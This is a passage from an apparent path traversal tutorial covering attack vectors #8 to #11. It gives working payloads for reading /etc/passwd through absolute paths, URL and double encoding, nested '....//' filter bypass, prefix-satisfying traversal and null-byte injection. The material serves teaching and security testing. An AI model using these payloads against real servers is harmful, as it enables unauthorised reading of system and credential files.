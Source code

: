 When traversal sequences are filtered, absolute paths often remain viable:

```http
GET /image?filename=/etc/passwd HTTP/1.1
```

This technique bypasses relative path filtering while achieving the same objective.

### Attack Vector #8: Encoding-Based Evasion

Modern web applications often implement input filtering. Attackers use various encoding techniques to bypass these controls:

**URL Encoding:**
```
%2e%2e%2f%2e%2e%2f%2e%2e%2fetc%2fpasswd
```

**Double URL Encoding:**
```
..%252f..%252f..%252fetc/passwd
```

### Attack Vector #9: Non-Recursive Filter Bypass

Some applications remove traversal sequences but do so non-recursively, creating opportunities for nested payloads:

```
....//....//....//etc/passwd
```

After single-pass filtering removes `../`, the payload becomes `../../../etc/passwd`.

### Attack Vector #10: Path Validation Bypass

Applications may require specific path prefixes. Attackers can satisfy these requirements while still achieving traversal:

```
/var/www/images/../../../etc/passwd
```

### Attack Vector #11: Null Byte Injection

Legacy applications vulnerable to null byte injection can be exploited to bypass extension validation:

```
../../../etc/passwd%00.png
```

The null byte terminates string processing in lower-level languages, effectively ignoring the `.png` suffix.

---

## Part III: Advanced Exploitation Techniques
